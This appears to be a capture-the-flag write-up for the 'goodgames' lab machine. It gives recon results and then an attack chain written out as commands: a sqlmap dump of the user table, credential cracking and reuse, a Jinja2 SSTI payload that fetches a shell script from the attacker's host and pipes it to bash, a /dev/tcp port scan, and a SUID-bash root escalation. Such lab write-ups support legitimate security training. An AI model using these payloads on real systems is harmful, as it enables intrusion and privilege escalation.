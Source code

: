 ## goodgames

| Name | IP | Difficulty | OS |
| goodgames | 10.10.11.130 | Linux | Easy |

## NMAP

| HOST | PORT | PROTO | SERVICE | VERSION
| 10.10.11.130 | 80 | tcp | Apache httpd | 2.4.51 | 

## HEADERS



## DIRECTORIES

- /blog
- /login
- /profile
- /logouti
- /forgot-password
- /coming-soon

## USERS

- admin superadministrator
- augustus

## NOTES

- Save login request and dump user table `sqlmap -r login.req --batch --dump -D main -T user`
- Crack admin password in Crackstation
- Login with admin credentials to internal-administration.goodgames.htb
- The full name field in settings is SSTI vulnerable, tested with `{{1+1}}`
- Helpful article on SSTI - https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
- curl and exectue bash reverse shell`{{request.application.__globals__.__builtins__.__import__('os').popen('curl http://10.10.14.5:8000/shell | bash').read()}}`
- Dockerfile in /backend directory, in a docker container
- There's an eth0 NIC with the IP `172.19.0.2`
- Scan open ports on the IP with only bash available `for port in $(seq 1 1000); do timeout 0.01 bash -c "</dev/tcp/172.19.0.1/$port && echo The port $port is open || echo The Port $port is closed > /dev/null" 2>/dev/null || echo Connection Timeout > /dev/null; done` from https://github.com/AlexRandomed/One-Liner-Bash-Scanner
- SSH is open, SSH as `augustus` with the password `superadministrator`
- Copy bash to augustus' home directory `cp /bin/bash .` and exit SSH
- Make bash owned by root `chown root:root bash`
- Make bash readable and executable by augustus `chmod 4755 bash`
- SSH back in as augustus and run `./bash -p` to spawn a shell as root
- 
